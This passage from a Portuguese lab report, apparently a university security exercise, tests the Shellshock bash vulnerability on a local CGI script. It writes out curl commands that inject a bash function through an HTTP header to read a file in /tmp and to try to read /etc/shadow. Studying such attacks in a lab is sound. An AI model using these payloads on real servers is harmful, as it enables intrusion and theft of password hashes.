 <center>
Figura 2 - Remoção de um ficheiro na pasta /tmp</center>

<br>

### Ponto c)
Neste ponto temos por objetivo saber se é possível retirar o conteúdo do ficheiro shadow "/etc/shadow" que se encontra no servidor.

Para testar este ponto tentou-se ler um ficheiro "ficheiro2" com texto no seu conteúdo, através do código abaixo:

    curl -H "ATTACK:() { echo hello; }; echo Content_type: text/plain; echo; /bin/cat /tmp/ficheiro2" localhost:8080/cgi-bin/vul.cgi

Após verificar que era possível, executou-se o código testado para o ficheiro shadow e podemos observar os resultados na Figura 3.

    curl -H "ATTACK:() { echo hello; }; echo Content_type: text/plain; echo; /bin/cat /etc/shadow" localhost:8080/cgi-bin/vul.cgi


<center>
<img src="parte1_ex2_c_1.png" alt="drawing"/>
</center>

<center>
Figura 3 - Tentativa de acesso ao ficheiro shadow</center>

<br>

Como se pode observar, o primeiro ficheiro tinha dados e os mesmos foram impressos na linha de comandos. No segundo código, nada foi apresentado.

Para garantir que o ficheiro tinha conteúdo, abriu-se o docker em modo interativo e fez-se o cat desse mesmo ficheiro, como mostra Figura 4.

<center>
<img src="parte1_ex2_c_2.png" alt="drawing"/>
</center>
